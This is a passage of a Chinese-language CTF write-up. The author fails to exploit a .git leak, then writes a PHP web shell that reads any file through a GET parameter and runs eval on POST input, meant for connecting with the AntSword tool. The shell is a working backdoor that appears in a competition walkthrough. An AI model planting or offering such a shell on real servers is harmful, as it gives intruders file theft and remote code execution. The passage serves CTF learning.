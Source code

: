 ## 继续分析

到了这步我开始猛找flag，发现没有任何一个地方有，其实花了很久没看懂到底要咋进行下一步，后来看到了.git目录，被队里的其他师傅提示了要恢复git才得以继续。
首先尝试了git泄露，但是没有成功
![第一次git泄露](img/59d1418206dc91afe8129f4058d7578a.png)
![没有成功泄露](img/fe8c020c26c327d6f1978f45e5bb40fb.png)
虽然没泄露，但是看这个提示，可以感觉到出题人还是希望我们去研究git这个文件夹，用其他方式泄露出来文件，所以我们必须去服务器上把整个git文件夹脱下来
再写一个马子

```
@<?php

if($_GET['file']){
        die(file_get_contents($_GET['file']));}
@eval($_POST["a"]);
var_dump($a);

?> 
```

这个是给蚁剑连接用的
